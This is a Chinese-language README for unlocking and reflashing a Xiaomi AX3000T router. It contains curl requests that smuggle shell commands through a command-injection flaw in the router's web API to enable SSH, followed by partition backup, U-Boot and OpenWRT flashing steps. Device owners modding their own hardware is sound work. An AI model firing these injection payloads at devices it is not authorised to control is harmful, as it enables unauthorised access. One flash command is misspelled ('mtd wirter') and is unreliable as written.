 # Mi_AX3000T

## 文件清单

| 文件                                                                           | 作用                        |
| ------------------------------------------------------------------------------ | --------------------------- |
| [miwifi_rd03_firmware_ef0ee_1.0.47.bin](miwifi_rd03_firmware_ef0ee_1.0.47.bin) | Mi_AX3000T官方固件1.0.47    |
| [ax3000t_1.0.49.bin](ax3000t_1.0.49.bin)                                       | Mi_AX3000T固件1.0.49        |
| [miwifi_rd03_firmware_14680_1.0.64.bin](miwifi_rd03_firmware_14680_1.0.64.bin) | Mi_AX3000T固件1.0.64        |
| [Xioami](xiaomi/)                                                              | Mi_AX3000T官方备份          |
| [FIP.bin](FIP.bin)                                                             | Mi_AX3000T官方UBoot分区备份 |

## Enable SSH(开启SSH)

开启SSH使用了一个注入漏洞,根据OpenWRT Wiki描述,仅在官方固件中的1.0.47版本中生效,如果版本过高,可以降级开启,或者小米路由器官方救砖工具降级

```shell
curl -X POST http://192.168.31.1/cgi-bin/luci/;stok=<Stok>/api/misystem/arn_switch -d "open=1&model=1&level=%0Anvram%20set%20ssh_en%3D1%0A"

curl -X POST http://192.168.31.1/cgi-bin/luci/;stok=<Stok>/api/misystem/arn_switch -d "open=1&model=1&level=%0Anvram%20commit%0A"

curl -X POST http://192.168.31.1/cgi-bin/luci/;stok=<Stok>/api/misystem/arn_switch -d "open=1&model=1&level=%0Ased%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%22debug%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%0A"

curl -X POST http://192.168.31.1/cgi-bin/luci/;stok=<Stok>/api/misystem/arn_switch -d "open=1&model=1&level=%0A%2Fetc%2Finit.d%2Fdropbear%20start%0A"
```

## Backup Partition(备份分区)

```shell
dd if=/dev/mtd0 | gzip >/tmp/spi.bin.gz
dd if=/dev/mtd1 | gzip >/tmp/BL2.bin.gz
dd if=/dev/mtd2 | gzip >/tmp/Nvram.bin.gz
dd if=/dev/mtd3 | gzip >/tmp/Bdata.bin.gz
dd if=/dev/mtd4 | gzip >/tmp/Factory.bin.gz
dd if=/dev/mtd5 | gzip >/tmp/FIP.bin.gz
dd if=/dev/mtd6 | gzip >/tmp/crash.bin.gz
dd if=/dev/mtd7 | gzip >/tmp/crash_log.bin.gz
dd if=/dev/mtd8 | gzip >/tmp/ubi.bin.gz
dd if=/dev/mtd9 | gzip >/tmp/ubi1.bin.gz
dd if=/dev/mtd10 | gzip >/tmp/overlay.bin.gz
dd if=/dev/mtd11 | gzip >/tmp/data.bin.gz
dd if=/dev/mtd12 | gzip >/tmp/KF.bin.gz
```

在备份完成后可以使用Scp命令或者SSH工具导出备份

[恢复文件下载](xiaomi/),恢复文件时的管理员密码为`adminadmin`,若不能登陆也可尝试重置

恢复分区

```shell
# 还原UBoot分区示例,其中 /tmp/FIP.bin是UBoot分区备份文件路径,/dev/mtd5是分区路径
mtd write /tmp/FIP.bin /dev/mtd5
```

一共13个分区,其中Bdata中包含Mac地址信息,在Mac地址丢失时尝试使用命令重刷该分区`/dev/mtd3`

FIP分区,位于/dev/mtd5,该分区为UBoot分区,还原官方UBoot可以使用备份文件还原该分区

ubi分区,位于/dev/mtd8,还原官方固件时需要使用备份文件刷写该分区,可能是系统分区

## Flash UBoot

地址:[UBoot](https://github.com/hanwckf/bl-mt798x)

```shell
mtd wirter /tmp/UBoot.bin /dev/mtd5
```

## Flash OpenWRT

进入UBoot:按压Reset同时接通电源,PC使用网络线缆连接路由器,配置连接的网络适配器IP地址为192.168.1.x,如果不行则尝试192.168.31.x网段

UBoot中选择布局为QWRT,选择[OpenWRT固件](openwrt-R23.11.11-mt7981-xiaomi_mi-router-ax3000t-squashfs-factory.bin)即可刷写
